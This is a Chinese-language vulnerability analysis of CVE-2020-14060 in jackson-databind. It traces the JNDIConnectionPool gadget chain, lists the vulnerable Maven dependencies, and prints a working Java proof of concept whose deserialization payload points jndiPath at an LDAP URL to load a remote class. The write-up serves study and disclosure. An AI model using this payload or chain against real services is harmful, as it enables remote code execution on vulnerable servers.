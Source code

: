 （CVE-2020-14060）FasterXML jackson-databind 反序列化漏洞
=========================================================

一、漏洞简介
------------

**利用条件**开启`enableDefaultTyping()`使用了`org.apache.drill.exec:drill-jdbc-all`第三方依赖

二、漏洞影响
------------

jackson-databind before 2.9.10.4jackson-databind before 2.8.11.6jackson-databind before 2.7.9.7

三、复现过程
------------

### 漏洞分析

首先定位到`oadd.org.apache.xalan.lib.sql.JNDIConnectionPool`类，之后发现一处可疑的JNDI注入：1.png参数为jndiPath，该参数在当前类中有对应的set操作，在反序列化时会调用setJndiPath进行一次赋值操作，故可控：2.png然而我们的`findDatasource`并不会被调用，之后全局搜索`findDatasource`函数，发现存在两处，一处是`testConnect()`，这对我们来说无用，另外一处是getConnection(),该函数在序列化时会被调用：3.png在反序列化操作时，我们可以将`jndipath`指向恶意`LDAP`服务，之后当序列化操作时`getConnection`会被调用，由此导致`findDatasource`被调用，最后导致`JNDI`注入，整个利用链如下所示：

    mapper.readValue
        ->setJndiPath
            ->getConnection
                 ->findDatasource
                     ->context.lookup(this.jndiPath);

### 漏洞复现

> pom.xml

    <dependencies>
        <dependency>
          <groupId>com.fasterxml.jackson.core</groupId>
          <artifactId>jackson-databind</artifactId>
          <version>2.9.10.4</version>
        </dependency>

        <dependency>
          <groupId>org.apache.drill.exec</groupId>
          <artifactId>drill-jdbc-all</artifactId>
          <version>1.4.0</version>
        </dependency>

        <dependency>
          <groupId>org.slf4j</groupId>
          <artifactId>slf4j-nop</artifactId>
          <version>1.7.2</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
        <dependency>
          <groupId>javax.transaction</groupId>
          <artifactId>jta</artifactId>
          <version>1.1</version>
        </dependency>
      </dependencies>
      <!-- https://mvnrepository.com/artifact/org.aoju/bus-core -->

PS：这里的漏洞所使用的库包需要在1.4版本才可以，之后没有该漏洞类，而目前最新的已经是1.17.0了，所以总体来说较为鸡肋\~

> POC:

    package com.jacksonTest;

    import com.fasterxml.jackson.databind.ObjectMapper;

    import java.io.IOException;

    public class Poc {
        public static void main(String[] args) throws Exception {
            ObjectMapper mapper = new ObjectMapper();
            mapper.enableDefaultTyping();
            String payload = "[\"oadd.org.apache.xalan.lib.sql.JNDIConnectionPool\",{\"jndiPath\":\"ldap://127.0.0.1:1099/Exploit\"}]";
            try {
                Object obj = mapper.readValue(payload, Object.class);
                mapper.writeValueAsString(obj);
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

之后运行该程序，成功执行命令，弹出计算器：

4.png

参考链接
--------

> https://xz.aliyun.com/t/8012\#toc-12
